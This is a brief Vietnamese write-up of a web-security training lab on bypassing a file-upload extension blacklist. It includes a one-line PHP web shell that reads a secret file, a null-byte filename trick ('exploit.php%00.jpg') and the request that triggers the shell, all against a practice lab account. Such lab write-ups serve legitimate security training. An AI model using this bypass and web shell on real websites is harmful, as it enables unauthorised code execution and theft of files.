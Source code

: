 # Lab: Web shell upload via obfuscated file extension

> Phòng lab này chứa lỗ hổng file upload trong phần upload avatar. Phần mở rộng của file upload nằm trong blacklist nhưng vẫn có thể bypass nó bằng một số cách thức đặc biệt.
> 
> Để giải quyết phòng lab, hãy tải lên một web shell PHP cơ bản và sử dụng nó để lấy nội dung của file mật `/home/carlos/secret`. Gửi nội dung lấy được bằng nút **Submit**
>
> Hãy đăng nhập vào account `wiener:peter` để upload avatar

Thử upload file `exploit.php` với nội dung `<?php echo file_get_contents('/home/carlos/secret') ?>` thì nhận được phản hồi ***Sorry, only JPG & PNG files are allowed Sorry, there was an error uploading your file.***

Trang web chỉ cho tải lên tệp có định dạng JPG & PNG. Mình có thể sửa bằng cách thêm byte null (`%00`) và đuôi .png vào tên file. `filename="exploit.php%00.jpg"`

Chuyển sang tab repeater và dùng lệnh `GET /files/avatars/exploit.php`
